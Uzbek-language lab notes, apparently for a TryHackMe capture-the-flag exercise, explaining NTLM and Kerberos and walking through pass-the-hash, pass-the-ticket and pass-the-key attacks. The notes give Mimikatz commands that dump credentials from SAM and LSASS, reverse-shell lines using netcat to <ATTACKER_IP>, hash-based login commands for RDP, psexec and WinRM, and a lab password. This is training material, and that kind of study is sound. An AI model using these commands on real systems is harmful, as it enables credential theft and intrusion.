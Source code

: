 ## 🧾 Alternativ autentifikatsiya vositalari nima?

**"Alternate authentication material"** degani — foydalanuvchining haqiqiy parolini bilmasdan tizimga kirish imkonini beruvchi **hashlar, Kerberos chipta(lari), kalitlar**.

Bu usullar quyidagi protokollar orqali ishlatiladi:

* ✅ **NTLM (NT LAN Manager)**
* ✅ **Kerberos**

### ⚠️ Shart: Mimikatz vositasi orqali hashlar yoki tiketlar olishni bilish kerak.

---

## 🔐 NTLM Autentifikatsiyasi qanday ishlaydi?

NTLM 6 bosqichli autentifikatsiya jarayoniga ega:

1. Klient serverga ulanish so‘rovini yuboradi.
2. Server **challenge** (tasodifiy son) yuboradi.
3. Klient **NTLM hash** va challenge asosida **javob** (response) hosil qiladi.
4. Server bu javobni **Domain Controller** ga yuboradi.
5. Domain Controller uni tekshiradi va tasdiqlasa — kirish ruxsati beradi.
6. Server natijani klientga yuboradi.

---

## 🔓 Pass-the-Hash (PtH) hujumi

Agar siz foydalanuvchining **NTLM hash** ni olgan bo‘lsangiz (paroli emas, faqat hash), siz:

👉 **Parolni bilmasdan** tizimga ulanishingiz mumkin.

### ✅ Mimikatz orqali hash olish usullari:

#### 🟢 1. Mahalliy foydalanuvchi hashlarini olish (SAM dan):

```powershell
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
```

#### 🟡 2. LSASS xotirasidan domen foydalanuvchi hashlarini olish:

```powershell
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # sekurlsa::msv
```

#### 🔁 PtH ishlatish:

```powershell
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:<NTLM_HASH> /run:"c:\tools\nc64.exe -e cmd.exe <ATTACKER_IP> 5555"
```

🧠 `whoami` desangiz avvalgi foydalanuvchi chiqadi, ammo **amalga oshirilayotgan buyruqlar** – injektsiya qilingan foydalanuvchi huquqlari bilan bajariladi.

---

## 🐧 Linuxda PtH ishlatish:

1. **RDP orqali:**

```bash
xfreerdp /v:<victim_ip> /u:DOMAIN\\User /pth:<NTLM_HASH>
```

2. **psexec orqali:**

```bash
psexec.py -hashes <NTLM_HASH> DOMAIN/User@victim_ip
```

3. **WinRM orqali:**

```bash
evil-winrm -i <victim_ip> -u User -H <NTLM_HASH>
```

---

## 🎫 Kerberos Autentifikatsiyasi

1. Foydalanuvchi **username + timestamp** yuboradi (paroldan olinadigan kalit bilan shifrlangan).
2. KDC (Domain Controller) foydalanuvchiga **TGT (Ticket Granting Ticket)** va **Session Key** beradi.
3. TGT orqali foydalanuvchi kerakli xizmatga **TGS (Ticket Granting Service)** talab qiladi.
4. Keyin TGS yordamida xizmatga ulanish mumkin bo‘ladi.

---

## 🎟️ Pass-the-Ticket (PtT) hujumi

TGT yoki TGS ni **mimikatz** orqali LSASS dan chiqarib olish mumkin:

```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

#### Chipta injektsiya qilish:

```powershell
mimikatz # kerberos::ptt <file>.kirbi
```

#### Tekshirish:

```powershell
klist
```

---

## 🗝️ Overpass-the-Hash / Pass-the-Key (PtK)

Parolning o‘rniga **Kerberos encryption key** (RC4, AES128, AES256) orqali TGT olinadi.

### Kalitlarni olish:

```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

### Keyin:

```powershell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:<HASH> /run:"c:\tools\nc64.exe -e cmd.exe <ATTACKER_IP> 5556"
```

👉 RC4 = NTLM hash, shuning uchun NTLM hash orqali ham PtK bajarish mumkin — bu **Overpass-the-Hash** deb ataladi.

---

## 🧪 Amaliy topshiriq

### SSH orqali tizimga ulan:

```bash
ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com
parol: iLov3THM!
```

### Maqsad:

1. **mimikatz** orqali `t1_toby.beck` ning NTLM hash yoki TGT yoki encryption key ni olish.

2. So‘ngra:

   * `Pass-the-Hash`
   * `Pass-the-Ticket`
   * `Pass-the-Key`

3. Muvaffaqiyatli injektsiyadan keyin:

```powershell
winrs.exe -r:THMIIS.za.tryhackme.com cmd
```

4. `t1_toby.beck` ning kompyuteridagi **Desktop** ichidan flagni top.

